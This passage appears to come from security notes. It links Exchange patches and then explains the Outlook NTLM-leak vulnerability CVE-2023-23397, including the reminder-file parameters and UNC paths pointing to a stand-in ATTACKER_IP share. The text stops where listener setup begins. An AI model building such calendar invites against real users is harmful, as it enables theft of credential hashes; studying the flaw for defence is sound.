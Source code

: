 **Patching** Look in the below link for a list of patches and updates

```
https://techcommunity.microsoft.com/t5/exchange-team-blog/released-march-2021-exchange-server-security-updates/ba-p/2175901
```

**References**

```
https://github.com/microsoft/CSS-Exchange/tree/main/Security
```

#### Microsoft Outlook

**NTLM Leak | CVE-2023-23397**

**Premise**

This vulnerability requires no user interaction to trigger it. Once an infected email arrives in the user's inbox, the attacker can obtain sensitive Net-NTLMv2 credential hashes. Once malicious actors have those hashes, they can get a user's credentials, authenticate to their system and escalate privileges.

**How it works**

This vulnerability can be exploited by creating a malicious outlook appointment and sending it over to the recepient.

On Outlook, it's possible to add reminder notifications when sending calendar invitations. You can specify the audio file played when a user gets a notification reminder for a calendar meeting or event. Typically, this would be used for a user to set up their own notifications by pointing to an audio file.

The attacker must create a malicious calendar invitation that includes a reference to a sound file pointing to a file in a network share in the attacker's machine. Two parameters must be manipulated

```
PidLidReminderFileParameter: Must point to the file hosted in the attacker's network share

Example network share: \\ATTACKER_IP\share\malicious.wav

PidLidReminderOverride: Must be set to true
```

The malicious audio reminder file can also be hosted on a WebDAV-enabled server and therefore the audio file must point to a path similar to the one below

```
\\ATTACKER_IP@80\directory\malicious.wav
```

When the victim receives the malicious email, the UNC path directs them to that SMB share, triggering the vulnerability. This causes the system to start an NTLM authentication process against the attacker's machine, leaking a Net-NTLMv2 hash that the attacker can later try to crack.

**Exploitation Steps**

**Preparing the listener**
